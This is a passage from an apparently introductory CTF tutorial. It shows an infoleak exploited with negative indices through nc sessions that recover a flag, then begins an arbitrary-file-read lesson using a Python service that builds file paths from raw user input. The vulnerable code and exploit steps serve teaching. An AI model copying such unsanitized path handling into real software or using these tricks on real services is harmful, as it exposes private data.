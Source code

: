 You may not have recognised it, but our infoleak vulnerability occurs here:

```python
    index = len(FLAG) + int(sys.stdin.readline())
```

When supplying an index of zero, we can obtain the length of the flag. We'll use
this information later. Let's try to make the program behave in a non-intended
manner right now. Notice that the program is using int() to convert a string
into an integer. Most programming languages support inputs such as "1", "999",
and with some parameters, "4e3bc" but remember, negative integers are integers
too and are properly handled by these parsers. Let's see if it works:

```console
elliot@ctf101-shell:~/ctf101$ nc pwn.spro.ink 1338
Welcome to the Infoleak!
Please enter an index: -2
Giving you the data from index 41...
Here's the data: }
RainRainGoAwayComeAgainAnotherDay
elliot@ctf101-shell:~/ctf101$
```

And it does! Supplying a negative integer will allow us to read data from the
non-public segment of the 'haystack'. It is just a matter of applying the
information of the flag length we obtained just now to get the entire flag.

```console
elliot@ctf101-shell:~/ctf101$ nc pwn.spro.ink 1338
Welcome to the Infoleak!
Please enter an index: -43
Giving you the data from index 0...
Here's the data: ctf101{w3ll_1_gu355_th3y_4r3_fl0ating_n0w}
RainRainGoAwayComeAgainAnotherDay
elliot@ctf101-shell:~/ctf101$
```

### Arbitrary File Read

Arbitrary file reads allow you to read from any location that the owner of the
service has access to. Take a look at this vulnerable service:

```python
#!/usr/bin/python
# I might have left a little present at /flag

import sys

def write(data, term="\n"):
    sys.stdout.write(data + term)
    sys.stdout.flush()

def main():
    # Tell the user what we have
    write("Our selection: futurama, ghost, pinkfloyd, rat")
    write("Take your pick: ", term="")

    # What did they pick
    pick = sys.stdin.readline().strip()

    # Try reading the art
    try:
        location = "/home/arbitraryread/art/" + pick
        contents = open(location).read()
    except:
        write("Unable to read the art from file...")
        exit()

```
